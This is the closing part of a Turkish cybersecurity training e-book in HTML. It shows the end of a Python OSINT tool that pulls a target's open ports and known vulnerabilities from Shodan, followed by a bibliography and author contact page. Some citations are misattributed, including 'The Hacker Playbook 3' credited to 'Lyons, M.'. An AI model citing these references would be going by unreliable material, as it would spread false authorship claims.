            r = requests.get(
                f"https://api.shodan.io/shodan/host/{ip}",
                params={'key': api_key}
            )
            veri = r.json()
            self.sonuclar['shodan'] = {
                'ip': ip,
                'org': veri.get('org'),
                'country': veri.get('country_name'),
                'os': veri.get('os'),
                'ports': veri.get('ports', []),
                'vulns': veri.get('vulns', [])
            }
        except Exception as e:
            print(f"[!] Shodan hatası: {e}")

    def rapor_olustur(self):
        """JSON raporu"""
        self.sonuclar['meta'] = {
            'hedef': self.hedef,
            'tarih': datetime.now().isoformat(),
            'arac': 'Siber Akademi OSINT Toplayıcı v1.0',
            'gelistiren': 'Toprak Ahmet Aydoğmuş'
        }

        dosya_adi = f"osint_{self.hedef}_{datetime.now().strftime('%Y%m%d_%H%M')}.json"
        with open(dosya_adi, 'w', encoding='utf-8') as f:
            json.dump(self.sonuclar, f, ensure_ascii=False, indent=2)

        print(f"\n[+] Rapor kaydedildi: {dosya_adi}")
        return dosya_adi</code></pre>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     KAYNAKÇA
══════════════════════════════════════════════════════ -->
    <section style="margin-top:6rem; border-top:1px solid #1A1A1A; padding-top:4rem;">
      <h2 style="font-family:'Cinzel',serif; font-size:1.5rem; color:var(--gold); margin-bottom:2rem;">Kaynakça ve
        Referanslar</h2>

      <div class="references">
        <div class="ref-item">OWASP Foundation. (2021). <em>OWASP Top Ten 2021</em>.
          https://owasp.org/www-project-top-ten/</div>
        <div class="ref-item">MITRE Corporation. (2024). <em>MITRE ATT&CK Enterprise Matrix</em>.
          https://attack.mitre.org/</div>
        <div class="ref-item">NIST. (2018). <em>Cybersecurity Framework Version 1.1</em>. National Institute of
          Standards and Technology.</div>
        <div class="ref-item">Verizon. (2023). <em>Data Breach Investigations Report</em>. Verizon Business.</div>
        <div class="ref-item">Mandiant. (2024). <em>M-Trends 2024: Special Report</em>. Mandiant Inc.</div>
        <div class="ref-item">EC-Council. (2023). <em>Certified Ethical Hacker (CEH) v12 Body of Knowledge</em>.</div>
        <div class="ref-item">Offensive Security. (2024). <em>Penetration Testing with Kali Linux (PWK)</em>. OffSec
          Services LLC.</div>
        <div class="ref-item">Lyons, M. (2023). <em>The Hacker Playbook 3</em>. Secure Planet LLC.</div>
        <div class="ref-item">Kim, P., (2023). <em>The Hacker Playbook 3: Practical Guide To Penetration Testing</em>.
        </div>
        <div class="ref-item">Google Project Zero. (2024). <em>0-Day Vulnerability Reports</em>.
          https://googleprojectzero.blogspot.com</div>
        <div class="ref-item">Heartfield, R., & Loukas, G. (2018). Detecting semantic social engineering attacks with
          the weakest link. <em>IEEE Access</em>.</div>
        <div class="ref-item">Aydoğmuş, T. A. (2026). LinkedIn Yayınları.
          https://www.linkedin.com/in/toprak-ahmet-aydoğmuş-60462534b/</div>
        <div class="ref-item">Hack The Box. (2024). Plaform Achievement.
          https://www.hackthebox.com/achievement/machine/2370013/394</div>
        <div class="ref-item">CyberToprak. (2025). Siber Eğitim Platformu. https://cybertoprak.wixsite.com/siberegitim
        </div>
        <div class="ref-item">Siber Akademi. (2025). Açık Kaynak Eğitim İçerikleri. İzmir, Türkiye.</div>
        <div class="ref-item">SANS Institute. (2024). <em>Security Awareness Report</em>. SANS Technology Institute.
        </div>
        <div class="ref-item">Cloud Security Alliance. (2023). <em>Top Threats to Cloud Computing</em>. CSA.</div>
        <div class="ref-item">Volatility Foundation. (2024). <em>Volatility 3 Documentation</em>.
          https://volatility3.readthedocs.io</div>
        <div class="ref-item">Stiofan, Ó. C. & Johnson, R. (2022). <em>Mastering Malware Analysis</em>. Packt
          Publishing.</div>
        <div class="ref-item">NSA/CISA. (2023). <em>Zero Trust Architecture Guidelines</em>. U.S. Cybersecurity &
          Infrastructure Security Agency.</div>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     KAPANIŞ SAYFASI
══════════════════════════════════════════════════════ -->
    <section id="final-page">
      <div class="gold-rule-thick"></div>

      <div class="cover-diamond" style="margin-bottom:2rem;"></div>

      <h2 class="final-title">Siber Akademi</h2>

      <p
        style="max-width:600px; margin:0 auto 2rem; color:var(--white-dim); font-style:italic; text-align:center; font-size:1.1rem;">
        "Güvenlik bir varış noktası değil, sürekli bir yolculuktur. Her gün öğrenin, her gün paylaşın."
      </p>

      <div
        style="display:flex; flex-direction:column; align-items:center; gap:0.5rem; font-family:'Cinzel',serif; font-size:0.85rem; color:var(--gold-dim);">
        <span style="color:var(--gold); font-size:1rem; font-weight:700;">Toprak Ahmet Aydoğmuş</span>
        <span>Cybersecurity Specialist | Ethical Hacker | Penetration Tester</span>
        <span>OSINT | CTF | Digital Forensics | Siber Akademi CEO & Founder</span>
        <span style="margin-top:0.8rem;">📧 toprakahmetaydogmus0@gmail.com</span>
        <span>🌐 linkedin.com/in/toprak-ahmet-aydoğmuş-60462534b</span>
        <span>🌐 cybertoprak.wixsite.com/siberegitim</span>
        <span>📍 İzmir, Türkiye</span>
      </div>

      <div
        style="margin-top:3rem; display:flex; gap:3rem; justify-content:center; font-size:0.75rem; color:#333; letter-spacing:0.1em; text-transform:uppercase; font-family:'Cinzel',serif;">
        <span>Siber Akademi © 2025</span>
        <span>◆</span>
        <span>Tüm Hakları Saklıdır</span>
        <span>◆</span>
        <span>İzmir, Türkiye</span>
      </div>

      <div class="gold-rule" style="margin-top:3rem;"></div>
    </section>
  </main>

  <script>
    // Floating nav dot active state
    const sections = ['cover', 'toc', 'ch1', 'ch2', 'ch3', 'ch4', 'ch5', 'ch6', 'ch7', 'ch8', 'ch9', 'ch10', 'ch11', 'ch12', 'ch13', 'ch14', 'ch15', 'final-page'];
    const dots = document.querySelectorAll('.nav-dot');

    const observer = new IntersectionObserver((entries) => {
      entries.forEach(entry => {
        if (entry.isIntersecting) {
          const idx = sections.indexOf(entry.target.id);
          if (idx !== -1) {
            dots.forEach(d => d.classList.remove('active'));
            if (dots[idx]) dots[idx].classList.add('active');
          }
        }
      });
    }, { threshold: 0.3 });

    sections.forEach(id => {
      const el = document.getElementById(id);
      if (el) observer.observe(el);
    });
  </script>
</body>

</html>
